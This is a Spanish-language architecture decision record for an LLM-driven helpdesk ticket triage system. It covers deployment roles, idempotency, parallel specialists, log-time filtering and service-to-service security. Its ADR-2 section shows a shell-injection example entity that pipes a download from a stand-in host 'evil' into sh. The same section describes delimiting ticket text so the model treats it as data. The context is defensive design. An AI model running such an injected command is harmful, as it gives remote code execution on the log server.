

# Arquitectura

## Flujo del triaje



## ADR-1: un código, tres desplegables

**Contexto.** Orquestador y especialistas tienen perfiles distintos: el de logs necesita acceso a servidores, el visual necesita memoria para imágenes, y el orquestador está expuesto al helpdesk.

**Decisión.** Un solo repositorio y una sola imagen. `SERVICE_ROLE` (`all | orchestrator | vision | logs`) decide qué routers y qué componentes se montan. El orquestador habla con los especialistas a través de dos contratos (`VisionClient`, `LogsClient`) con dos implementaciones: en proceso y HTTP.

**Consecuencias.** Se desarrolla y se prueba como un monolito (un proceso, sin red) y se despliega como servicios cuando conviene escalar o aislar privilegios. El cliente HTTP se prueba contra el servidor real con transporte ASGI, de modo que el contrato no puede divergir en silencio. Costo: una imagen con código de los tres roles (el rol es configuración, no un artefacto distinto).

## ADR-2: el texto del ticket es entrada no confiable

El ticket lo escribe un tercero y alimenta dos mecanismos sensibles.

**Búsqueda en el servidor de logs.** De ese texto sale la "entidad" que se busca en archivos remotos. Una entidad como `x"; curl evil | sh; "` interpolada en un comando de shell sería ejecución remota de comandos. Las defensas son independientes:

1. `entity_token`: normaliza a ASCII, toma la última palabra y exige `^[a-z0-9][a-z0-9-]{1,39}$`. Si no cumple, **no se busca** (y se registra el rechazo).
2. `build_find_command`: valida el token otra vez, entrecomilla cada valor dinámico con `shlex.quote` y no usa sustitución de comandos (`-mmin` en lugar de `$(date ...)`).
3. SSH con `RejectPolicy` y `known_hosts` obligatorio: sin él el servicio ni arranca.

**Prompts.** El texto va delimitado (`<ticket>`) con la instrucción de tratarlo como dato. Más importante: *el modelo no tiene herramientas ni ejecuta nada*. Lo que devuelve se publica como texto o se valida contra una lista cerrada (`type_id ∈ {10, 14, 19}`); un tipo inventado no se envía.

## ADR-3: idempotencia y concurrencia

Los helpdesk reintentan webhooks y a veces los duplican. Dos mecanismos distintos para dos riesgos distintos:

- **Reenvío posterior**: el diagnóstico es una nota con un asunto fijo; si el ticket ya la tiene, se omite (`already_diagnosed`). La marca vive *en el ticket*, así sobrevive a reinicios y a varias instancias. (Sin ella, un ticket con 1 artículo + la nota propia seguiría cumpliendo "≤ 2 artículos" y se diagnosticaría de nuevo.)
- **Eventos simultáneos**: un conjunto de tickets en curso evita procesar el mismo dos veces a la vez.

**Límite conocido**: el conjunto en curso es por proceso. Con varias instancias hay una ventana (entre la guarda y la publicación) en la que dos instancias podrían procesar el mismo ticket; se cierra con un bloqueo distribuido o una operación condicional en el helpdesk (*publicar solo si aún no existe la nota*).

## ADR-4: especialistas en paralelo, con degradación

Los especialistas son independientes entre sí, de modo que se lanzan juntos (`gather`), cada uno con su presupuesto (`call_with_budget`). La latencia es la del más lento, no la suma (el test lo mide: 2 × 0,3 s → < 0,55 s).

Un especialista que tarda, falla o devuelve error **no impide el diagnóstico**: se omite su insumo y, si fue por tiempo, se deja constancia en el texto. Solo se listan como "insumos" los especialistas que aportaron algo (un "no se encontraron errores" no cuenta).

## ADR-5: evidencia literal y tipo decidido al final

- Las líneas de log (hasta 5, sin duplicados, las más recientes, en orden cronológico) y los hallazgos visuales se anexan **después** del texto del modelo y **sin reescribir**. Quien lee el ticket puede comprobar la afirmación contra su fuente.
- El `type_id` lo decide el diagnóstico final, que es quien ya vio los insumos; si no devuelve uno válido se conserva el de la clasificación inicial. Los especialistas **no** deciden el tipo.
- *Kill switch* (`TICKET_TYPE_ENABLED=false`): la asignación automática de tipo puede haber dado problemas operativos; con la bandera apagada el tipo se calcula y se escribe en el texto (para que lo asigne una persona) pero no se modifica el ticket.

## ADR-6: ventana temporal de los logs

`find -mmin` filtra por la fecha de modificación del **archivo**. Un archivo que se escribe de continuación también contiene errores viejos. Por eso se vuelve a filtrar por el timestamp de cada línea. Esos timestamps son naive y están en la hora local **del servidor de logs**; se comparan contra "ahora" en esa zona (`LOGS_TIMEZONE`), no contra UTC (si no, un desfase de horas descarta o admite líneas indebidas). El reloj es inyectable para que los tests no dependan de la hora de la máquina.

## ADR-7: LLM intercambiable y tolerante a fallos

`TriageLLM` es un `Protocol` con dos implementaciones. `GeminiLLM` siempre pide JSON y lo extrae de forma tolerante (bloques ```json, texto alrededor, saltos de línea dentro de cadenas); ante cualquier fallo devuelve un valor seguro (clasificación "consulta general", diagnóstico "revisión manual") en lugar de tumbar el flujo. `RuleBasedLLM` son heurísticas deterministas: **no es un modelo**, existe para ejecutar y probar todo el pipeline sin claves ni red.

## Seguridad entre servicios

| Capa | Mecanismo |
|---|---|
| Helpdesk → orquestador | secreto compartido en `X-Webhook-Token` (comparación en tiempo constante) |
| Orquestador → especialistas | ID token OIDC (audiencia = URL base del servicio) en Cloud Run; Bearer estático en local |
| Especialistas | servicios privados (IAM de la plataforma) + `SPECIALIST_TOKENS` opcional como defensa en profundidad |
| Servidor de logs | cuenta de servicio y clave SSH **solo** en el agente de logs |

## Límites conocidos

- **Helpdesk**: solo hay adaptador en memoria; un sistema real requiere implementar el puerto `Helpdesk` (tres métodos).
- **Gemini y SSH reales** no se ejercitan en los tests (requieren credenciales/infraestructura); sí la construcción segura del comando y el contrato del cliente HTTP.
- Las FAQ de demo se recuperan por coincidencia léxica; en producción se apunta a un File Search Store administrado.
- Sin cola de trabajos: el procesamiento corre en la tarea de fondo del propio proceso. Para volumen alto conviene encolar (p. ej. Cloud Tasks) con el mismo `TriageService`.
